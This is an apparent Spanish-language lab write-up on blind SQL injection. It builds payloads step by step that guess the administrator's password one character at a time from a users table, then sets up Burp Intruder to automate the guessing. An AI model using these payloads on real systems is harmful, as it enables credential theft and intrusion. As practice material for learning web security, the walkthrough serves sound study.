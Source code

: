 Ahora lo que vamos hacer es ir probando poco a poco, la informacion que estamos acertando y la que no...

```mysql
' and (select 'a')='a;
```

Como eso siempre va a ser igual deberiamos de visualizar la palabra que mencione anteriormente, si le pusieramos una `b` u otra letra que no sea la `a` en este caso, desapareceria ya que la comparacion que estamos haciendo no coincide...

```mysql
' and (select 'a' from users limit 1)='a;
```

Como sabemos que hay una tabla llamada `users` y que estamos haciendo la comparacion que siempre va a ser cierta, seguiremos viendo la palabra, por lo que lo estaremos haciendo bien (Ya que dentro de la tabla mencionada tiene por ahi una `a`)...

```mysql
' and (select 'a' from users where username='administrator')='a;
```

o

```mysql
' and (select substring(username,1,1) from users where username='administrator')='a;
```

A lo que se refiere con `username,1,1` esta haciendo una comparacion de la palabra `administrator` con la primera letra de la palabra `a`, que en este caso se cumple ya que es la `a`...

o

```mysql
' and (select substring(username,2,1) from users where username='administrator')='d;
```

Sabemos que el usuario que estamos intentando adivinar su contraseña es la del `administrator` por eso hacemos eso de ahi arriba, pero lo podemos hacer de mas maneras distintas...

> TODO ESTO ES POR QUE EN ESTA PRACTICA SE ESTA PRACTICANDO LO QUE SE CONOCE COMO `CONDITIONAL ERROR` POR LO QUE TENDREMOS QUE IR PROBANDO LETRA POR LETRA PARA IR SABEINDO CUANDO DA UN ERROR Y CUANDO NO (CUANDO NO DE EL ERROR SIGNFICA QUE LA LETRA ESTA...)

Ahora si queremos saber la contraseña de este usuario, haremos lo siguiente...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='a;
```

Donde pone `password` se le pone el nombre de la tabla que contenga las contraseñas y tendremos que ir probando letra por letra con comparaciones las que te van dando fallos y las que no, pero para no hacerlo de forma manual, utilizaremos el `intruder`...

Todo el `request` nos lo llevamos al `intruder` utilizando `^I`, dentro de el, seleccionaremos la seccion en la que pone `a` ubicado en la ultima linea del codigo...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='<SELECCIONADO>;
```
